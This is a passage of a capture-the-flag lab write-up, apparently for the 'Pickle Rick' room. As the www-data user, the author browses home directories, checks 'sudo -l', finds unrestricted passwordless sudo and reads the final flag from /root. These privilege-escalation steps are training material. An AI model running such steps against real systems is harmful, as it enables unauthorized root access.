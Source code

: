 ```
cd /home; ls -al
total 16
drwxr-xr-x  4 root   root   4096 Feb 10  2019 .
drwxr-xr-x 23 root   root   4096 Feb  3 02:12 ..
drwxrwxrwx  2 root   root   4096 Feb 10  2019 rick
drwxr-xr-x  4 ubuntu ubuntu 4096 Feb 10  2019 ubuntu
```
go to rick's home

```
cd /home/rick; ls -al
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
```
cd /home/rick; less "second ingredients"

2nd flag done!

```
sudo -l
Matching Defaults entries for www-data on ip-10-10-0-165.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-0-165.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

I learned this is the TCM course, but forgot!

```
sudo ls /root
3rd.txt
snap
```
Now get the LAST FLAG!

```
sudo less /root/3rd.txt
```

DONE!
